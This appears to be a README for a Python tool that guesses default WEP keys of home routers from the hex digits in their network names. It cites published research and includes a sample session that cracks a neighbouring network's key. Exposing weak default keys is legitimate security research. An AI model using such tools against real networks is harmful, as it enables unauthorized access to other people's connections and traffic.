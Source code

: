 WiFi Password Guessing
======================

These scripts exploit the lack of entropy (as in randomness) exhibited by many 
common access points.  Those with SSID (network names) that end with 4 or 6 
hexadecimal digita, e.g. CYTA22B481,  BTHomeHub-D1D1, O2wireless8FE2F6.

They don't actually do any clever WEP-related exploit, they simply use the SSID 
to guess a handful of possible passwords, and then tries them in sequence.  See 
the example session below where a network was selected and the password 
successfully found in 43 seconds.

In theory, this will work with any form of encryption.  If you can guess the 
password, what good is encryption?

This exploit is based on the following posts:

http://209.85.135.104/search?q=cache:MGlJn9Cl2cwJ:www.networksecurityarchive.org/html/Vuln-Dev/2008-06/msg00303.html+mdap+network&hl=en&ct=clnk&cd=4&gl=uk&client=firefox-a

http://www.gnucitizen.org/blog/default-key-algorithm-in-thomson-and-bt-home-hub-routers/

Sample session
--------------

This session took 43 seconds from beginning to end::

    # sudo modprobe -r ipw2200; ./wep-crack.py ; beep
    INFO:root:WEP-crack starting
    INFO:root:User is not root, will restart as root
    INFO:root:WEP-crack starting
    INFO:root:User is root, good
    INFO:root:rtap0 interface not available
    WARNING:root:ipw2200 was not already loaded
    INFO:root:Reloaded ipw2200 with rtap0 interface
    INFO:root:Waiting for network list to be populated
    INFO:iwlist_parser:18 networks in range
    INFO:iwlist_parser:0 non-access-point networks removed from list
    INFO:iwlist_parser:3 non-encrypted networks removed from list
    INFO:iwlist_parser:7 WPA-encrypted networks removed from list
    Candidate networks, ordered by signal strength:
    0)      -67     SpeedTouchD8B3A5
    1)      -71     BTHomeHub-D1D1
    2)      -74     BTHomeHub-201F
    3)      -74     BTHomeHub-13E3
    4)      -75     O2wireless8FE2F6
    5)      -77     BTHomeHub-9E68
    6)      -80     BTHomeHub-E6AA
    7)      -82     O2wireless926FB1

    Select network to crack: 4
    Attempting to crack:
             ESSID: O2wireless8FE2F6
             BSSID: 00:1D:68:69:CF:5D
           channel: 1
            signal: -75

    Checking if DB contains any WEP keys for this network...
    Will search for keys matching ['8FE2F6']
    85.5MB 0:00:09 [8.65MB/s] [====================================================>] 100%
    Found 182 likely keys.
    [ 0 / 182 (0.0%) ] ETC: 0 seconds
    [ 1 / 182 (0.5%) ] ETC: 547 seconds
    [ 2 / 182 (1.1%) ] ETC: 545 seconds
    [ 3 / 182 (1.6%) ] ETC: 542 seconds
    [ 4 / 182 (2.2%) ] ETC: 539 seconds
    [ 5 / 182 (2.7%) ] ETC: 536 seconds
    There is already a pid file /var/run/dhclient.pid with pid 134519072

    Found key! Key for network O2wireless8FE2F6 is (hex): ABCDEF0123
    Leaving network in configured state and quitting
